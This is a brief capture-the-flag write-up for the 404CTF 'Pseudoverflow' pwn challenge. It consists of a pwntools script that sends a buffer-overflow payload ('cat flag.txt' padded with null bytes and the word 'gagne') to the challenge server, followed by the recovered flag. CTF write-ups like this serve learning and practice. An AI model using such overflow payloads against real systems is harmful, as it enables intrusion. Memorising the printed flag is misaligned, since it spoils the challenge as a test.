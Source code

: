 # Pwn

## Pseudoverflow

### Intro

```py
#!/usr/bin/python3

from pwn import *

context.log_level = 'error'
context.binary = elf = ELF('./course')

io = remote("challenges.404ctf.fr", 31958)

io.recvuntil("pseudo :")

payload = b"cat flag.txt" + b"\x00"*94 + b"gagne\x00"

io.sendline(payload)

print(io.clean())
```

**404CTF{0v3rfl0w}**
